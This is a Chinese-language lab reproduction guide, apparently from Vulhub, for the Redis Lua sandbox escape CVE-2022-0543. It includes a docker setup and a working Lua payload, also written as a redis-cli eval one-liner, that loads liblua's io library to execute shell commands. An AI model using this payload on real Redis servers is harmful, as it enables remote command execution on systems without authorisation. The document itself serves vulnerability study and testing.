

# Redis Lua沙盒绕过命令执行（CVE-2022-0543）

Redis是著名的开源Key-Value数据库，其具备在沙箱中执行Lua脚本的能力。

Debian以及Ubuntu发行版的源在打包Redis时，不慎在Lua沙箱中遗留了一个对象`package`，攻击者可以利用这个对象提供的方法加载动态链接库liblua里的函数，进而逃逸沙箱执行任意命令。

参考链接：

- <https://www.ubercomp.com/posts/2022-01-20_redis_on_debian_rce>
- <https://bugs.debian.org/cgi-bin/bugreport.cgi?bug=1005787>

## 漏洞环境

执行如下命令启动一个使用Ubuntu源安装的Redis 5.0.7服务器：

```
docker-compose up -d
```

服务启动后，我们可以使用`redis-cli -h your-ip`连接这个redis服务器。

## 漏洞复现

我们借助Lua沙箱中遗留的变量`package`的`loadlib`函数来加载动态链接库`/usr/lib/x86_64-linux-gnu/liblua5.1.so.0`里的导出函数`luaopen_io`。在Lua中执行这个导出函数，即可获得`io`库，再使用其执行命令：

```lua
local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io");
local io = io_l();
local f = io.popen("id", "r");
local res = f:read("*a");
f:close();
return res
```

值得注意的是，不同环境下的liblua库路径不同，你需要指定一个正确的路径。在我们Vulhub环境（Ubuntu fiocal）中，这个路径是`/usr/lib/x86_64-linux-gnu/liblua5.1.so.0`。

连接redis，使用`eval`命令执行上述脚本：

```lua
eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("id", "r"); local res = f:read("*a"); f:close(); return res' 0
```

可见命令已成功执行：


